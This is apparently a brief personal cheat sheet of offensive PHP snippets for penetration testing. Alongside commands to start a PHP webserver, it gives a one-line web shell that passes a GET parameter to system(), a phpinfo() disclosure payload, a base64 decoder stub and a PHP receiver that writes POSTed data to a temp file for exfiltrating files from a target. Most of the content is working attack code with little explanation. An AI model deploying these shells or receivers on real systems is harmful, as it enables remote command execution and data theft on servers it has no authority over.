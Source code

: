 # Useful_PHP

PHP webserver
```bash
php -S 0.0.0.0:8000
```

Execute file:
```bash
php file.php
```

```php
<?php system($_GET['hello']); ?>
```

```PHP
<?php echo("Hello");phpinfo(); ?>
```


Base64 PHP decoder
```PHP
<?php echo zlib_decode(base64_decode('base64here')); ?>
```

## Vulnerable Functions
[[Vulnerable-PHP-Functions]]

## Webserver Exfiltratation

Curl post data to the webserver to then login to exfiltrate
```php
<?php 
if (isset($_POST['file'])) {
        $file = fopen("/tmp/http.bs64","w");
        fwrite($file, $_POST['file']);
        fclose($file);
   }
?>
```